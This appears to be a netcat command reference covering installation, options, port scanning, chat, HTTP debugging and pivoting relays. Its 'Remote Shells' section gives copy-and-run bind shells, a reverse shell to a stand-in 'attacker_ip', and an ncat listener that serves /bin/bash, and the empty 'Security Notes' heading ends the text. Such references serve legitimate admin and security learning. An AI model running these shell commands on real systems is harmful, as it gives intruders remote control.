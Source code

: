 Netcat (nc) is a lightweight, flexible networking utility for reading from and writing to TCP and UDP connections. It is widely used for debugging, scanning, file transfer, banner grabbing, pivoting, and remote administration.

## Key Features

- Supports TCP and UDP
- Client or server mode (listen/connect)
- Built-in port scanning with ranges
- File transfer and chat capability
- Banner grabbing & service enumeration
- Executes programs on connection (-e, if supported)
- IPv4 & IPv6 support
- Verbose/hex dump modes for debugging
- Proxy and SSL/TLS via Ncat (Nmap)
- Works interactively or in scripts

## Installation

### Debian / Ubuntu

- **Recommended modern build** (copy and run):
    
    ```
    apt install netcat-openbsd
    
    ```
    
- **Legacy variant with -e support** (copy and run):
    
    ```
    apt install netcat-traditional
    
    ```
    

### RHEL/CentOS / Fedora

- (copy and run):
    
    ```
    sudo yum install nmap-ncat
    
    ```
    

### Windows

- Ncat from Nmap (supports SSL, proxies)
- Static Netcat builds

## Basic Syntax

- General format (copy and run):
    
    ```
    nc [options] host port
    
    ```
    
- Client mode (copy and run):
    
    ```
    nc target 80
    
    ```
    
- Server (listen) mode (copy and run):
    
    ```
    nc -l -p 4444
    
    ```
    

## Common Options

| Option | Description |
| --- | --- |
| -l | Listen mode (server) |
| -p <port> | Specify port number |
| -n | No DNS resolution (numeric IP addresses only) |
| -v | Verbose output |
| -vv | Very verbose output |
| -e <program> | Execute program after connection (remote shell) |
| -u | Use UDP protocol instead of TCP |
| -w <seconds> | Timeout for connects and final net reads |
| -z | Zero-I/O mode (used for scanning ports) |
| -o <file> | Output hex dump of traffic sent/received |
| -q <seconds> | Quit after EOF on stdin and delay |

## Examples

### 1. Listening as a Server

- Basic (copy and run):
    
    ```
    nc -l -p 8888
    
    ```
    
- Verbose, numeric only (copy and run):
    
    ```
    nc -n -l -v -p 8888
    
    ```
    
- Shorthand (copy and run):
    
    ```
    nc -nlvp 8888
    
    ```
    

### 2. Port Scanning

- Single port (copy and run):
    
    ```
    nc -zv 192.168.1.31 80
    
    ```
    
- Range with timeout (copy and run):
    
    ```
    nc -zvv -w 2 192.168.1.31 1-1000
    
    ```
    

### 3. Chat (one-to-one)

- Terminal 1 (server, copy and run):
    
    ```
    nc -l -p 1234
    
    ```
    
- Terminal 2 (client, copy and run):
    
    ```
    nc 192.168.1.7 1234
    
    ```
    

### 4. Remote Shells

- **Bind shell (on target)**:
    - Linux (copy and run):
        
        ```
        nc -nlvp 4444 -e /bin/bash
        
        ```
        
    - Windows (copy and run):
        
        ```
        nc.exe -nlvp 4444 -e cmd.exe
        
        ```
        
- **Reverse shell (target → attacker)** (copy and run):
    
    ```
    nc attacker_ip 4444 -e /bin/bash
    
    ```
    

### 5. Proxying / Tunneling with Ncat

- TLS encrypted listener (copy and run):
    
    ```
    ncat --ssl -l 8443 --sh-exec "/bin/bash"
    
    ```
    
- Client (copy and run):
    
    ```
    ncat --ssl server_ip 8443
    
    ```
    

## Advanced Usage

### Debugging HTTP

- (copy and run):
    
    ```
    printf "GET / HTTP/1.1\\r\\nHost: example.com\\r\\n\\r\\n" | nc example.com 80
    
    ```
    

### Pivoting (simple relay)

- Setup FIFO (copy and run):
    
    ```
    mkfifo backpipe
    
    ```
    
- Relay (copy and run):
    
    ```
    nc -l -p 8080 < backpipe | nc internal_host 22 > backpipe
    
    ```
    

### Hexdump of traffic

- (copy and run):
    
    ```
    nc -o dump.log target 80
    
    ```
    

## Troubleshooting

- e not working? → Install netcat-traditional or use ncat --sh-exec or socat.
- Port ignored? → Must use with -l.
- Persistent listener? → Use -k (OpenBSD nc).
- Want encryption? → Use ncat --ssl or wrap in SSH/VPN.

## Security Notes

